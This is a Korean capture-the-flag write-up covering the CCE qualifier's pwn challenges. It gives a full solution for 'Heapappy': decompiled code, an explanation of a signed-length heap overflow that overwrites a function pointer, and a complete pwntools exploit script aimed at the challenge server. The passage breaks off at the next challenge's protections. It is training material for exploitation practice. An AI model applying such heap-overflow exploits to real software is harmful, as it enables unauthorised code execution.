 ![[Pasted image 20250817185028.png]]

예선 1등으로 본선에 간다. 청소년부에 폰은 총 6문제 출제되었다. (Heapappy : 250, book : 487, Artisan : 86, Chain : 962, Time Capsule : 962, MyBlog : 1000(0 Solve)) 대회 진행 중 마지막 문제를 제외한 5문제를 풀었다. MyBlog도 조금만 집중하면 풀 수 있었을 거 같은데 커널 문제를 풀 때 조건을 제대로 확인하지 않아서 두 시간을 날리기도 했고, 우리 팀 리버서도 나를 도와줄 정신 상태가 아니어서 깔끔하게 접고 쉬었다. 각설하고 풀이를 적어보겠다.

---
## 목차

1. Heapappy
2. book
3. Artisan
4. Chain
5. Time Capsule

---

# Heapappy

```bash
[*] '/mnt/d/cce/qual/Heapappy/prob'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

PIE가 꺼져 있고 Partial RELRO이다.

```C
unsigned __int64 prompt()
{
  unsigned __int64 v1; // [rsp+0h] [rbp-40h]
  char nptr[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v3; // [rsp+38h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v1 = 0LL;
  printf("Choice: ");
  while ( v1 <= 0x1E && fread(&nptr[v1], 1uLL, 1uLL, stdin) == 1 )
  {
    if ( nptr[v1] == 10 )
    {
      nptr[v1] = 0;
      break;
    }
    ++v1;
  }
  nptr[v1] = 0;
  return strtoul(nptr, 0LL, 10);
}

unsigned __int64 __fastcall input(__int64 a1, unsigned __int64 a2)
{
  char ptr; // [rsp+17h] [rbp-19h] BYREF
  unsigned __int64 i; // [rsp+18h] [rbp-18h]
  size_t v5; // [rsp+20h] [rbp-10h]
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  for ( i = 0LL; ; ++i )
  {
    if ( i >= a2 )
      return i;
    v5 = fread(&ptr, 1uLL, 1uLL, stdin);
    if ( v5 != 1 )
      break;
    if ( ptr == 10 )
      return i;
    *(_BYTE *)(i + a1) = ptr;
  }
  if ( feof(stdin) )
    fwrite("ERROR: Reached EOF\n", 1uLL, 0x13uLL, stderr);
  else
    fwrite("ERROR: fread failed\n", 1uLL, 0x14uLL, stderr);
  return i;
}

int adopt()
{
  __int64 v1; // [rsp+0h] [rbp-10h]

  if ( pet )
    return puts("Already adopted.");
  pet = malloc(0x28uLL);
  if ( !pet )
    exit(1);
  memset(pet, 0, 0x28uLL);
  *((_DWORD *)pet + 6) = 0;
  *((_QWORD *)pet + 4) = act_tutorial;
  printf("Name length: ");
  v1 = prompt();
  if ( v1 > 24 )
    return puts("Name too long.");
  printf("Name bytes: ");
  input((__int64)pet, v1);
  return puts("Adopted.");
}
```

`adopt` 함수에서 이름의 길이 변수인 `v1`이 `signed __int64` 임을 알 수 있다. 따라서 음수를 입력하면 조건문을 통과한다. 그런데 `input` 함수에서는 `rsi`를 `unsigned __int64`로 해석하고 있으므로 `heap overflow`가 발생한다.

```C
int perform_ritual()
{
  if ( pet )
    return (*((__int64 (__fastcall **)(void *))pet + 4))(pet);
  else
    return puts("Adopt first.");
}
```

`perform_ritual` 함수에서 `heap`에 있는 함수 포인터를 참조하여 실행하는 부분이 있으므로 이를 `win` 함수로 덮어 쉘을 딴다.

### ex.py

```python
from pwn import *
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-r', '--remote', action='store_true', help='Connect to remote server')
parser.add_argument('-g', '--gdb', action='store_true', help='Attach GDB debugger')
args = parser.parse_args()

gdb_cmds = [
    'b *$rebase(0x000000000001568)',
    'c'
]

binary = './prob'
 
context.binary = binary
context.arch = 'amd64'
# context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

if args.remote:
    p = remote("3.38.164.12", 3030)
else:
    p = process(binary)
    if args.gdb:
        gdb.attach(p, '\n'.join(gdb_cmds))

p.sendlineafter(b'Choice: ', b'1')
p.sendlineafter(b'Choice: ', b'-1')
p.sendlineafter(b': ', b'a' * 0x20 + p64(0x40184d))
p.sendlineafter(b'Choice: ', b'3')

p.interactive()
```

---
# book

```C
[*] '/mnt/d/cce/qual/book/prob'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

